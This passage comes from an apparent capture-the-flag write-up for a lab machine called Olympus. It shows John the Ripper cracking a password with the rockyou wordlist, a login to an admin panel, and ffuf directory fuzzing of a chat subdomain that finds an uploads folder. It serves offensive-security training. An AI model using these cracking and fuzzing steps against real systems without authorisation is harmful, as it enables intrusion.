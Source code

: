 ```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
summertime       (prometheus)
```

We got credentials for `prometheus`, let's go inside the admin panel:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501135943.png)

If we recall the `sqlmap` output, we can see the following emails:

```
root@chat.olympus.thm
zeus@chat.olympus.thm
```

This means there could be a `chat.olympus.thm` subdomain, let's add it and check it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501140604.png)

We can go with our found credentials:

![](gitbook/cybersecurity/images/Pasted%20image%2020250501140629.png)

Since there needs to be an `uploads` directory, we need to fuzz to check if it was changed to another name:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://chat.olympus.thm/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chat.olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

static                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 204ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 191ms]
uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 182ms]
```
